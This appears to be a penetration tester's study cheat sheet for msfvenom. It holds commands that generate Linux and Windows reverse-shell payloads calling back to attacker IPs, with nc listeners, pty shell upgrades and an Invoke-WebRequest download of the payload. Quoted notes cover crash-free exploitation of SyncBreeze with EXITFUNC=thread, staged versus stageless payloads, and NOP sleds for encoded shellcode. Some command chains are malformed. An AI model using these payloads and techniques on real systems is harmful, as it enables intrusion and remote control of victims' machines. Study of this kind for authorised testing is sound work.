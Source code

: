 ### Msfvenom
msfvenom --list encrypt  
msfvenom --list encoders  
msfvenom --list payloads  
msfvenom --list platforms  
msfvenom --list formats  

msfvenom -p linux/x86/shell_reverse_tcp --list-options  

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f elf > shell.elf && nc -lvnp 443 && python -c 'import pty;pty.spawn("/bin/bash")'; && export TERM=xterm  

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f exe > windows_reverse.exe && powershell && Invoke-WebRequest -Uri http://192.168.48.2/windows_reverse.exe -OutFile windows_reverse.exe && nc -lvnp 443  

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.119.190 LPORT=443 -f py -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7"  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f c -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has service handles the string to raw bytes conversion)  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f raw -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has no service handles the string to raw bytes conversion)  

### Improving the Exploit
> The default exit method of Metasploit shellcode following its execution is the ExitProcess API. This exit method will shut down the whole web service process when the reverse shell is terminated, effectively killing the SyncBreeze service and causing it to crash.
If the program we are exploiting is a threaded application, and in this case it is, we can try to avoid crashing the service completely by using the ExitThread API instead, which will only terminate the affected thread of the program. This will make our exploit work without interrupting the usual operation of the SyncBreeze server, and will allow us to repeatedly exploit the server and exit the shell without bringing down the service.
To instruct msfvenom to use the ExitThread method during shellcode generation, we can use the EXITFUNC=thread option as shown in the command below:

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread(this parameter can't be put behind all other parameters-tested) -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"  

### staged vs stageless
> The shells shown in this listing all have similar names. The key difference here is the separation after the architecture, of the payload names via a '/' or '_'. The payloads that are separated with a '/' character are staged payloads.6 Staged payloads begin the execution process with a small portion of the code that doesn't contain the full payload.Instead, it initiates the payload download from the attacking host after it begins execution. The benefit of a staged payload is that the size of the file is smaller. This may help with upload limitations on a target host. We will not be working with staged payloads, since that would require us to work with Metasploit.Payloads separated by an underscore (_) are stageless payloads.7 Stageless payloads contain the full payload from MSFvenom and do not require any additional resources from the attacker after initial execution. These payloads are larger when they are produced but often don't require the use of Metasploit to obtain shell access.

### NOP sled(verified less than 5 nops will reach page fault,as long as >=5, it is fine)
> As with other GetPC routines, those used by shikata_ga_nai have an unfortunate side-effect of writing some data at and around the top of the stack. This eventually mangles at least a couple of bytes close to the address pointed at by the ESP register. Unfortunately, this small change on the stack is a problem for us because the decoder starts exactly at the address pointed to by the ESP register. In short, the GetPC routine execution ends up changing a few bytes of the decoder itself (and potentially the encoded shellcode), which eventually fails the decoding process and crashes the target process.One method to avoid this issue is to adjust ESP backwards, making use of assembly instructions such as DEC ESP, SUB ESP, 0xXX, before executing the decoder. Alternatively, we could create a wide "landing pad" for our JMP ESP, such that when execution lands anywhere on this pad, it will continue on to our payload. This may sound complicated, but we simply precede our payload with a series of No Operation (or NOP) instructions, which have an opcode value of 0x90. As the name suggests, these instructions do nothing, and simply pass execution to the next instruction. Used in this way, these instructions, also defined as a NOP sled or NOP slide, will let the CPU "slide" through the NOPs until the payload is reached.In both cases, by the time the execution reaches the shellcode decoder, the stack pointer points far enough away from it so as to not corrupt the shellcode when the GetPC routine overwrites a few bytes on the stack.
